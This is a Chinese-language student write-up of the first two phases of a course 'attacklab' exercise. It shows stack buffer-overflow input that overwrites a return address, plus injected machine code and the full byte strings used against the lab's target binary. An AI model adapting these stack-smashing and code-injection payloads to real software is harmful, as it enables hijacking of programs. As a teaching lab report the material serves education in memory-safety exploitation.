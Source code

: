 # attacklab 实验报告

## CI

### 第一关

实验文档的提示以及很详细了。先找到 getbuf，发现缓冲区的长度为 24 字节；

然后找到 touch1 的地址为 `0x0000000000401695`；

只需先用任意字符串填充缓冲区的 24 字节，然后将后面 return address 的 8 个字节覆盖为 touch1 的地址即可，注意小端法。

```c
00 01 02 03 04 05 06 07 08 09 00 01 02 03 04 05 06 07 08 09 00 01 02 03
95 16 40 00 00 00 00 00
```



### 第二关

这里需要在进入 touch2 之前，提前修改 %rdi 的值，我们可以在栈上注入代码；

我们需要先找到调用 Gets 函数时的栈顶地址，因为这里的栈底地址是固定为 `0x00007fffffffffff`，因此无论运行多少次，走到 Gets 的时候栈顶地址都一定是固定的；

使用 `info regi` 指令，得知此时的栈顶地址为 `0x55654c98`，我们就在这 24 字节长的缓冲区中，注入我们的攻击代码；

攻击代码的汇编形式如下：

```assembly
pushq $0x4016c1 # touch2
movq $0x3d9549ca, %rdi
req
```

使用实验文档的方式得到带有字节代码的汇编代码：

```assembly

ctarget.l2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	68 c1 16 40 00       	pushq  $0x4016c1
   5:	48 c7 c7 ca 49 95 3d 	mov    $0x3d9549ca,%rdi
   c:	c3                   	retq   

```

注入的代码的字节码为：`68 c1 16 40 00 48 c7 c7 ca 49 95 3d c3`。由于长度不足 24 字节，因此使用任意字符 `0x0a` 除外填充至 24 字节，跟上栈顶地址 `0x55654c98`。

```c
68 c1 16 40 00 48 c7 c7 ca 49 95 3d c3 00 00 00 00 00 00 00 00 00 00 00
98 4c 65 55 00 00 00 00
```
